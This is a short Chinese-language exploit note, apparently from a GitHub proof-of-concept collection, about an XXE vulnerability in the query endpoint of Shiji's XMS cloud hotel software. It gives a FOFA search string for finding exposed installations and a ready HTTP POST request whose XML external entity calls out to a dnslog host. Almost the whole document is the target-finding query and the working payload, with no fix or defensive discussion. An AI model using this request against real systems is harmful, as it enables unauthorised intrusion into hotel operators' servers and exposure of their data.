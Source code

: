 ## 西软云XMS-futurehotel-query接口存在XXE漏洞

## fofa
```
app="shiji-西软云XMS"
```

## poc
```
POST /XopServerRS/rest/futurehotel/query HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.3157.54 Safari/537.36
Connection: close
Content-Type: text/xml
Accept-Encoding: gzip
 
<!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://xxx.dnslog.cn"> %remote;]>
```
